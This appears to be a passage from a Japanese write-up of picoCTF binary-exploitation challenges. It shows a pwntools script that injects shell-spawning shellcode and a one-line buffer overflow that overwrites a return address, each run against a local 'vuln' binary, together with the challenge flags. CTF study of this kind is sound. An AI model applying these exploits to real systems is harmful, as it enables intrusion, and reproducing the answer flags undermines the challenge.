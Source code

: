 Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
### Solution
これは、picoCTF 2018のshellcodeと同じでした。

```Python
#!/usr/bin/env python
from pwn import *

sh = process('./vuln')

sh.sendlineafter('Enter your shellcode:\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()
```

Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`



<br /><br />
<br /><br />
## [Binary Exploitation]: OverFlow 1 (150 points)
- - -
### Challenge
> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program?
<br /><br />
Hint: Take control that return address
<br />
Hint: Make sure your address is in Little Endian.

Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
### Solution
offsetを求めて、飛びたい関数に飛ぶだけ。

<pre>
$ (python -c 'print("A"*76+"\xE6\x85\x04\x08")' ; cat - ) | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn57f5688e7}
</pre>

Flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn57f5688e7}`


